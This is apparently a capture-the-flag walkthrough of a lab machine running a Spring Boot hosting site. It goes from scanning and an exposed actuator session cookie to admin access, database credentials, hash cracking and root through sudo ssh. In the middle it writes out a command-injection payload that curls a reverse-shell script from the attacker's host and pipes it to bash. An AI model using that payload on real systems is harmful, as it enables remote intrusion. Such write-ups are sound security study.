 **ip of the machine :- 10.129.2.185**

![](attachment/fa7a60e2fe1bcaa2a1356bb86d06678e.png)
machine is on!!!

![](attachment/0d311e9a7c05499352232ef5959f4026.png)
Got two open ports as usual...

![](attachment/f654889b58a5f49df36e8eeba367fb31.png)
Did an aggressive scan and found the version of the services running on the ports...

![](attachment/ad6dd5047f1b95746d1e773ee96bc1bb.png)
adding ip in /etc/hosts file..

![](attachment/2f23cc77320697780b9e411dde94fa15.png)
It's like a hosting website or somethin'

![](attachment/d00a663fff7c63e965196c7973db5dac.png)
Found some directories, let's explore them...

![](attachment/445717f95c24cff166a275b504889993.png)
Found a login page in /admin and same in /login and /logout but admin:admin didn't work so, let's find out another way to get in.

![](attachment/ad74ef79c6ce4c0bd67102e5b7748b54.png)
So went to /error and it gave a Whitelabel error...

![](attachment/d2f3fc120d35fd48e1dd0891e7ab1333.png)
So a whitelabel error page is in spring boot application, so does that mean it is running spring boot on back end??

![](attachment/226b1bb344aa78ccec82372ec7038285.png)
So used ffuf to find common spring boot directories and files and got some...

![](attachment/2a9ec81394ea655a85da13a241524da5.png)
So directory actuator was exposed and it's further files, so searched for what is actuator so it revealed that how spring boot application are actually working or simply operation info. which is interesting.

![](attachment/31567d364028bb5ff947a3f4ccad0f52.png)
Got a lot in actuator to explore and sessions look pretty interesting for possible session cookies...

![](attachment/660fe63e093142c28c906d4c53495b76.png)
Got a session cookie in /actuator/sessions...

![](attachment/dfc3dda3f34810983a12110966585861.png)
So added the session cookie and now we can see there is no login page coming so let's go for /admin...

![](attachment/078962811c777fc0a10ae505bb322336.png)
Got in /admin now...

![](attachment/4e9de371a9eb05ea71f4047832daa8d3.png)
we can reach the machine by using curl command in the input fields.....

![](attachment/2fa16c6bb7a5537f21c1f8eeacec01db.png)
made a rev.sh script and curled it on the web interface..
test;curl${IFS}http://10.10.14.42:9999/rev.sh|bash;
So we curled and got rev shell in the server and executed it using bash.
${IFS} for no inverted comma arguments...

![](attachment/d339a89aaf197587639a269d747c0229.png)
got rev shell...

![](attachment/3aea1409dc226f8b090f8057713a52c1.png)
Found a file in which we reverse shelld...

![](attachment/afa88b90e052f16d26091b87857336b1.png)
So extracted the jar file using unzip command and then started digging in the extracted stuff and found a file with credentials to postgres sql database. So this machine is running postgres sql in the back end as the database. Let's try to login in the database then...

![](attachment/97b806398e95fae0984bd4c358fc94cd.png)
Logged in into postgres sql database server...

![](attachment/99ed1eed2f71abc5dcec78883f0ee1f2.png)
Got a list of databases in the database server.

![](attachment/1ed3ce01d6e58e708f8856a505b7d231.png)
connected to database postgres now...

![](attachment/3d2bd25cff760385b849c8e5b2c17339.png)
Connected to cozyhosing database and it showed two tables...

![](attachment/a8d5d8f2b2a3756643be5c21bddb4e4e.png)
Got two hashes.... Let's try to crack them...

![](attachment/2e1eb99efd7fc65020df1e9561dd2972.png)
Cracked password of the admin...

![](attachment/53aa770d3f9ff86c3d1f37019ae65927.png)
there is only one user josh in the system. So maybe josh is the admin...

![](attachment/c9ea2522c32704fe99d86d1d857e37e5.png)
was write, logged in as user "josh"...

![](attachment/1ab8166ea444261ced9aaa79e581115f.png)
Got our first flag...

![](attachment/b7319908f035a56fe15f5444f19f2839.png)
use can only run /usr/bin/ssh as root...

![](attachment/14936a84214f2b0a19561e923d4c501a.png)
So went to GTFObins and found the solution of how to escalate privileges...

![](attachment/36b8955e9ea9941b949665563f44eb65.png)
Escalated privileges and as well as got our last flag...